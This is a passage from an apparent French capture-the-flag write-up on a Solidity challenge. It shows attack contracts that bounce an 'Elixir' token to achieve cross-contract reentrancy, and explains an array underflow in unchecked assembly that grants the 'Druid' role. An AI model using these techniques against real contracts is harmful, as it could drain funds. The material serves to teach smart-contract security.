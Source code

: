 ```js

    receive() external payable{
        elixir.transfer(address(attack2),1 ether);
    }

}
```
```js

    import "./elixir.sol";

    contract Attack2{

        Elixir public elixir;
        address public attack1;

        constructor(Elixir _elixir){
            elixir = _elixir;
        }

        function setAttack1Addr(address addr)public{
            attack1 = addr;
        }

        function resendElixir() public{
            elixir.transfer(attack1,1 ether);
        }

    }
```

### Array Underflow

Pour effectuer cette cross contract reentrancy, il faut être un Druid, représenté par le modifier suivant : 

    modifier onlyDruid(){
        require(isDruid(msg.sender),"Only Druid can trade with Getafix");
        _;
    }

Ainsi en se rendant dans le smart contract Druid, on remarque que n'importe quelle adresse peut devenir druide du moment qu'elle se trouve dans le mapping `druid`.

Pour ce faire, il faut faire un underflow sur le tableau `herbs`, je vais donc d'abord expliquer comment fonctionne cet underflow nous verront après comment le mettre en place.

Ainsi la seconde étape consiste à provoquer cet underflow sur le tableau `herbs`. Pour ce faire, il faut appeler la fonction `getLengthHerbs()`, qui retourne la taille du tableau. Dans cet exemple, la taille est de 2, donc il faut appeler la fonction `popHerb()` 3 fois pour provoquer l'underflow.

Il est possible de provoquer cet underflow car le calcul de la taille du tableau se fait dans les crochets assembly, qui ne vérifient pas les overflow ou underflow.
